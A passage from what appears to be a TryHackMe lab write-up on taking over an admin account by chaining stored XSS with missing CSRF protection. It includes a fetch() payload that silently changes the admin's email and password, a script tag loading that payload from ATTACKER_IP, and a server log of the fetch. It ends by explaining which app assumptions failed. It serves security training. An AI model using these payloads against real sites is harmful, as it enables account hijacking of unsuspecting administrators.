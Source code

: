 In our case, the application <strong>doesn't implement CSRF tokens at all</strong>. That makes things simpler. When your XSS fires in the admin's browser, you can just send a same-origin POST request to change the admin's email and password, and the browser will attach cookies automatically.</p>

<p>Here's the script you can host on your attacker box:<br>

Note: Save the script below as script.js </p>

```bash
fetch('/update_email.php', {
  method: 'POST',
  credentials: 'include',
  headers: {'Content-Type':'application/x-www-form-urlencoded'},
  body: 'email=pwnedadmin@evil.local&password=pwnedadmin'
});
```

<p>Once the admin views your profile (with this script injected), their session will silently issue that request, and their credentials will be updated.</p>

<h6 align="center"><img width="500px" src="https://github.com/user-attachments/assets/c3817c62-32a8-4ca1-8b0b-1d3b89803324"><br></h6>

<p>To inject this, just set your display name to:</p>

```bash
<script src="http://ATTACKER_IP:8000/script.js"></script>
```
<p>Make sure your attacker machine is serving script.js with Python:</p>

```bash
user@tryhackme:~$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
MACHINE_IP - - [06/Jul/2025 20:14:05] "GET /script.js HTTP/1.1" 200 -
```

<h6 align="center"><img width="500px" src="https://github.com/user-attachments/assets/f869f605-cd60-43f1-ad83-f7df85d140e1"><br></h6>

<h3 align="center">Step 4 : Login as Admin</h3>
<p>At this point, your XSS has done its job; the admin's credentials were changed without them knowing. You can now log in as the admin using the password you set in the payload:<br>

- Username: admin<br>
- Password: **********</p>

<h6 align="center"><img width="500px" src=""https://github.com/user-attachments/assets/0cbf2923-f910-4013-befc-c7263e7d0260"><br></h6>

<p>All the admin functionality is now available to you, because the application trusts that whoever is logged in with that account has the right to use those features. But you got here not by guessing the admin password, but by chaining smaller issues together: weak credentials, XSS, missing CSRF protection.</p>

<h2 align="center">Why Each Step Worked</h2>
<p>At every stage, the attack succeeded because the application made assumptions that weren't enforced:<br>

- It assumed developer test accounts wouldn't be left active.<br>
- It assumed profile input wouldn't be dangerous.<br>
- It assumed authenticated requests from the browser must be legitimate.<br>
- It assumed authentication was all you needed to access sensitive functions.<br>
